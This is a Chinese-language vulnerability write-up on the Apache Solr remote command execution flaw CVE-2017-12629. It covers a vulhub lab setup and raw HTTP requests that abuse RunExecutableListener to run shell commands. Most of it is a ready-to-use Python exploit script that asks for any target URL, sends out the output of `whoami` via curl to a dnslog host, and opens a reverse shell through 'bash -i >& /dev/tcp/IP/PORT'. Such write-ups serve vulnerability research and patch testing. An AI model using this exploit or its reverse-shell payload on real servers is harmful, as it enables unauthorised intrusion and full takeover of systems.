










Apache Solr RCE 远程命令执行漏洞 CVE-2017-12629¶
漏洞描述¶
Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。
参考阅读：
漏洞影响¶
Apache Solr < 7.1
环境搭建¶
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629
docker-compose build
docker-compose up -d
漏洞复现¶
先请求url地址获取 core 内容
http://xxx.xxx.xxx.xxx:8983/solr/admin/cores

通过查看代码，能够触发命令执行的事件有两个：postCommit 和 newSearcher

第一个请求包用于载入缓存中
exe : ping 执行的命令
dir: 命令存在的目录位置
args:命令参数
如下请求包执行的是 /bin/ping 1.1.1.1
POST /solr/demo/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json
Content-Length: 198
{
"add-listener" : {
"event":"postCommit",
"name":"newlistener-1",
"class":"solr.RunExecutableListener",
"exe":"ping",
"dir":"/bin/",
"args":["1.1.1.1"]
}
}

第二个请求包用于更新缓存并执行命令
POST /solr/demo/update HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json
Content-Length: 198
[{"id":"test"}]

注意 第一个请求包的这个位置 "name":"newlistener-1",listerer的名字需要替换
例如第一次 为 newlistener-1 ，第二次则需要改为 newlistener-2
注意 第二个请求包的这个位置 [{"id":"test"}]，同第一个请求包的name，每执行一次就需要更换 id ,例如第一次 为 test ，第二次则需要改为 tset-2
注意 Content-Type: application/json 需要添加
不更改执行发生报错示例

进入docker容器查看发现命令已经执行

使用 newSearcher可以直接加载入缓存执行命令
请求包如下
POST /solr/demo/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json
Content-Length: 198
{
"add-listener" : {
"event":"newSearcher",
"name":"newlistener-2",
"class":"solr.RunExecutableListener",
"exe":"bash",
"dir":"/bin/",
"args":[
"-c",
"mkdir /tmp/vuln",
]
}
}
注意点同上，也需要每次执行更改 "name":"newlistener-2" 的参数

成功执行了创建文件的命令

如果想要执行其他命令,则需要命令的的位置，例如执行ping，则需要设置dir参数为 /usr/bin/ping 或者 /bin/ping，如果需要检测漏洞是否存在则可以使用 dnslog来检测
漏洞POC
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from : http://wiki.peiqi.tech
import requests
import sys
import json
import random
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: Apache Solr < 7.1 \033[0m')
print('+ \033[36m使用格式: python3 cve-2017-12629.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx:8983 \033[0m')
print('+ \033[36mcmd >>> dnslog地址(漏洞外连检测) \033[0m')
print('+ \033[36mCmd >>> shell(反弹shell) \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
try:
response = requests.request("GET", url=core_url, timeout=10)
core_name = list(json.loads(response.text)["status"])[0]
print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
return core_name
except:
print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
sys.exit(0)
def POC_2(target_url, core_name, dnslog_url, n):
exp_url = target_url + "/solr/" + core_name + "/config"
dnslog_url = "`whoami`." + dnslog_url
headers = {
"Content-Type": "application/json",
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
}
payload_cmd = """
{"add-listener":{"event":"postCommit","name":"newSearche-%s","class":"solr.RunExecutableListener","exe":"curl","dir":"/usr/bin/","args":["%s"]}}
""" % (n, dnslog_url)
response = requests.request("POST", url=exp_url, headers=headers, data=payload_cmd, timeout=30)
if "add-listener" in response.text:
print("\033[32m[o] 成功执行，请查看dnslog \033[0m")
else:
print("\033[31m[x] 漏洞利用失败 \033[0m")
def POC_3(target_url, core_name, n, ip, port):
exp_url = target_url + "/solr/" + core_name + "/config"
headers = {
"Content-Type": "application/json",
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
}
payload_cmd = """
{"add-listener":{"event":"postCommit","name":"newSearche-%s","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c","bash -i >& /dev/tcp/%s/%s 0>&1"]}}
""" % (n, ip, port)
response = requests.request("POST", url=exp_url, headers=headers, data=payload_cmd, timeout=30)
if "add-listener" in response.text:
print("\033[32m[o] 成功执行 \033[0m")
else:
print("\033[31m[x] 漏洞利用失败 \033[0m")
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
core_name = POC_1(target_url)
while True:
n = random.randint(1, 9999)
cmd = input("\033[35mCmd >>> \033[0m")
if cmd == "exit":
exit(0)
elif cmd == "shell":
IP = str(input("\033[35m请输入监听IP >>> \033[0m"))
PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
POC_3(target_url, core_name, n, IP, PORT)
elif cmd == "dnslog":
dnslog_url = str(input('\033[35m请输入你的dnslog地址：\033[0m'))
POC_2(target_url, core_name, dnslog_url, n)


如果shell或dnslog无反应，可以选择更改一下POC的部分参数执行需要的代码